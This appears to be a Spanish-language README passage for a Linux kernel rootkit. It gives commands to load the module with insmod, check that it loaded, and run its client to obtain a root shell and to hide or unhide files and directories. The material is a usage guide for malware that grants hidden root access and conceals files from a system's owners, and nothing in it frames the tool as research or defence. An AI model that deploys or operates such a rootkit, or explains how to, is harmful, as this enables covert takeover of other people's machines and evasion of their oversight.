 
## Instalación y Carga

### 1. Cargar el Módulo del Kernel
```bash
# Cargar el rootkit en el kernel
sudo insmod rootkit.ko
```

### 2. Verificar Carga Exitosa
```bash
# Verificar que el módulo está cargado
lsmod | grep rootkit

# Ver logs de carga
dmesg | tail -10
```

### 3. Verificar Comunicación
```bash
# Probar que el cliente funciona
./client --help

```

---

## 🎮 Uso del Rootkit

### Comandos Disponibles

#### Control de Acceso
```bash
# Obtener shell root
./client --root-shell
```

#### Manejo de Archivos
```bash
# Ocultar archivo
./client --hide-file=archivo.txt

# Desocultar archivo  
./client --unhide-file=archivo.txt
```

#### Manejo de Directorios
```bash
# Ocultar directorio
./client --hide-dir=directorio_secreto

# Desocultar directorio
./client --unhide-dir=directorio_secreto
```
